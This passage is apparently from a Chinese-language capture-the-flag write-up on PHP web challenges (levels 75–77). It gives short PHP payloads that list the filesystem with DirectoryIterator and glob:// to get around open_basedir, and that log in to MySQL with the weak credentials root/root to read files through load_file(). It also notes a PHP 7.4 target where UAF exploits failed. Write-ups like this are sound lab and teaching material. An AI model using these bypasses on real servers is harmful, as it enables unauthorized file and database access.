 ```php
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
die();
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091612007.png)

然后 include 读取 flag

## web75

DirectoryIterator + glob:// 列目录

flag 在 /flag36.txt, include 包含失败, 存在 open_basedir 限制

hint 提示是 mysql 弱口令连接, 用 `load_file()` 读文件...(???)

```php
$dbh = new PDO('mysql:host=127.0.0.1;dbname=mysql','root','root');
foreach ($dbh->query('show databases;') as $row){
	var_export($row);
}
die();
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091629329.png)

读文件

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091630009.png)

## web76

/flag36d.txt

同上

## web77

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091634315.png)

提示是 php 7.4

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091639456.png)

response 头显示 `X-Powered-By: PHP/7.4.9`

`strlen()` 被禁用. 三种 UAF exp 都不能用, 在上面安全客的文章里找了一会

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091637663.png)
